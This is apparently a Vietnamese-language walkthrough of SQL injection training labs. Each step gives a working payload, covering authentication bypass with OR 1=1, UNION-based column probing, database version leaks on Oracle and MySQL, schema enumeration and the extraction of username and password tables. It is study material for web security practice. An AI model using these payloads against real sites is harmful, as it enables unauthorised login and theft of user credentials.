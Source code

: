 ![image](https://github.com/user-attachments/assets/d0b40b0a-cf42-407d-be1f-9bc0f417929a)

Bài này khi chọn Refine your search: là nó sẽ dùng method GET để truy vấn, dùng payload `Lifestyle' OR 1 = 1 -- -` là được:

![image](https://github.com/user-attachments/assets/dcb31aeb-f48a-4747-9f9d-13cf08b8a616)

![image](https://github.com/user-attachments/assets/c621cea9-d8ca-457a-a6d1-175d6c691d8d)

<br>
---------------------------------------
<br>

![image](https://github.com/user-attachments/assets/a38e82d1-886a-481b-bab5-008608cc1ff8)

![image](https://github.com/user-attachments/assets/025fba22-4c61-44cc-8d01-8454fb089686)

Dùng payload `administrator' OR 1 = 1 -- -` là được vì có vẻ câu truy vấn của nó là `SELECT * FROM tables WHERE username=username AND password=password`:

![image](https://github.com/user-attachments/assets/958e5cf7-2906-467c-8a42-1649c3fde2c3)

<br>
---------------------------------------
<br>

![image](https://github.com/user-attachments/assets/07cf2128-84ca-4559-96f2-0d8c3506f4c4)

![image](https://github.com/user-attachments/assets/e8786188-d83c-486d-8a16-3667129c7c4f)

Trước tiên là check số cột thì tôi có thể thấy nó có 2 cột:

![image](https://github.com/user-attachments/assets/ce930342-2a56-4ee7-bef7-cd911769ecfa)

![image](https://github.com/user-attachments/assets/f26ca492-4c8f-4470-b80f-1526bc3f2102)

a và b đã được lấy ra:

![image](https://github.com/user-attachments/assets/1d003042-e46b-4e42-8efe-9ffaf32f3763)

Tôi chỉ cần payload `Accessories' UNION SELECT banner, 'a' FROM v$version -- -` là ra:

![image](https://github.com/user-attachments/assets/8ab3bf06-8be8-448a-9169-29ee8d80c50e)

<br>
---------------------------------------
<br>

![image](https://github.com/user-attachments/assets/4e201e20-f1d8-49fb-b0d6-a61581b5132b)

Xác định số cột tương tự như câu trước, khác ở chỗ lệnh sql này khác cái kia:

![image](https://github.com/user-attachments/assets/08d7db9f-93b7-4c56-9627-b9bda50dc10a)

Dùng payload `Pets' UNION SELECT @@version, 'a' -- -` với bài này:

![image](https://github.com/user-attachments/assets/7ed85160-bd5f-49a0-a602-81691ba36ba0)

<br>
---------------------------------------
<br>

![image](https://github.com/user-attachments/assets/05ec4e10-3e8d-4a77-a182-b3863a6181b2)

![image](https://github.com/user-attachments/assets/499e030c-a7ad-467f-82d1-c6a527a7ecaf)

Bài này vẫn có 2 cột như trước, đi soi cheat sheet để kiếm lệnh in ra các table:

![image](https://github.com/user-attachments/assets/d7108418-8919-49c8-8e0e-988b8ac17e9f)

Dùng payload `Gifts' UNION SELECT table_name, 'a' FROM information_schema.tables -- -` để in ra các tables có trong database:

![image](https://github.com/user-attachments/assets/c9ffb461-9956-45f1-ab19-f4b2e2d0734c)

Tôi tìm kiếm bảng liên quan đến users:

![image](https://github.com/user-attachments/assets/901148b1-116b-4618-a82a-49863ae7de50)

Dùng payload `Gifts' UNION SELECT column_name, 'a' FROM information_schema.columns WHERE table_name = 'users_tfoynr' -- -` để xem tên cột có trong bảng users_tfoynr:

![image](https://github.com/user-attachments/assets/c2080623-c0be-473e-b3b2-bcaab1234baf)

Dễ thấy bảng này có 3 cột là username, email và password, tôi sẽ lấy username và password thì bảng này:

![image](https://github.com/user-attachments/assets/4897c0c3-e61d-4ec9-a0a0-caac13a7d9b5)

<br>
---------------------------------------
<br>

![image](https://github.com/user-attachments/assets/dbc93a60-6e05-46ea-96ac-a0567ff13d5d)

![image](https://github.com/user-attachments/assets/7c8eba84-4a29-4c38-94a0-7546859b0cc1)

Với Oracle thì payload có hơi khác chút nhưng bản chất vẫn vậy `Pets' UNION SELECT table_name, 'a' FROM all_tables -- -`:

![image](https://github.com/user-attachments/assets/21e4c049-be9d-43eb-88bc-75cf7270e0b9)

Dùng payload `Pets' UNION SELECT column_name, 'a' FROM all_tab_columns WHERE table_name = 'USERS_SMCHQL' -- -` để xem tên của các cột có trong bảng USERS_SMCHQL:

![image](https://github.com/user-attachments/assets/cf0b3aea-7f20-454a-a0c6-33a00af31b92)

Tiếp tục dùng `lmao' UNION SELECT PASSWORD_UOUWOL, USERNAME_RKYQAE FROM USERS_SMCHQL -- -` để lấy username:password, ở đoạn đầu lmao vì bỏ cái có tồn tại đi cho dễ nhìn:

![image](https://github.com/user-attachments/assets/0f6330b7-2772-4111-a610-40f11f75d3ed)

<br>
---------------------------------------
<br>

![image](https://github.com/user-attachments/assets/646f54da-55e7-4785-9d15-45ab50328f30)

Bài này mò cột, chắc thế, không biết nữa `Accessories' UNION SELECT NULL, NULL, NULL -- -`

![image](https://github.com/user-attachments/assets/51bc96b4-9caa-480a-be0b-9f51a9fbe330)

<br>
---------------------------------------
<br>

![image](https://github.com/user-attachments/assets/36279cc1-2d55-4d47-8953-d9e0dd9b7f59)

Sau khi tôi thử các payload như `Pets' UNION SELECT 'hKZWf0', NULL, NULL -- -` sau đó dịch cái dòng chữ sang cột tiếp thì ra:

![image](https://github.com/user-attachments/assets/3309a052-a850-4fa4-b8f9-568492bf8f67)

<br>
---------------------------------------
<br>

![image](https://github.com/user-attachments/assets/34098d17-b2b1-4545-bc83-ec124aab6122)

Mở đầu là `lmao' UNION SELECT 'a', 'b' -- -`:

![image](https://github.com/user-attachments/assets/661c85fc-a601-489e-b086-1c51ef562c64)

Sau khi dùng payload `lmao' UNION SELECT table_name, NULL FROM information_schema.tables -- -` thì ra được các bảng:

![image](https://github.com/user-attachments/assets/bd93d254-27b8-46d8-85b4-9b11a548189e)

Payload giống giống bài cũ `lmao' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' -- -`:

![image](https://github.com/user-attachments/assets/05ffb13c-9c07-414f-b7db-12e3d33f6b75)

Và cuối cùng là `lmao' UNION SELECT username, password FROM users -- -`

![image](https://github.com/user-attachments/assets/c6370d13-434e-4da1-8e16-c941349e85f9)

<br>
---------------------------------------
<br>

![image](https://github.com/user-attachments/assets/9233d3a1-7ccd-4815-b446-7457791d2a17)

Sau khi dùng `Pets' UNION SELECT 'a', 'b' -- -` thì lỗi:

![image](https://github.com/user-attachments/assets/53ec4f10-5b23-4b1a-b25e-276906cd0ad5)

Lý do lỗi là do sai kiểu giá trị vì khi tôi để NULL NULL là nó vẫn được:

![image](https://github.com/user-attachments/assets/96c403d4-3d0f-4618-9d2c-1498995ccb76)

Sau khi search qua qua trên mạng thì tôi dùng `lmao'+UNION+SELECT+NULL,username||':'||password+FROM+users--` để lấy username và password:

![image](https://github.com/user-attachments/assets/d91255cb-3d65-4141-96a7-a8a46ec1b84d)

<br>
---------------------------------------
<br>
















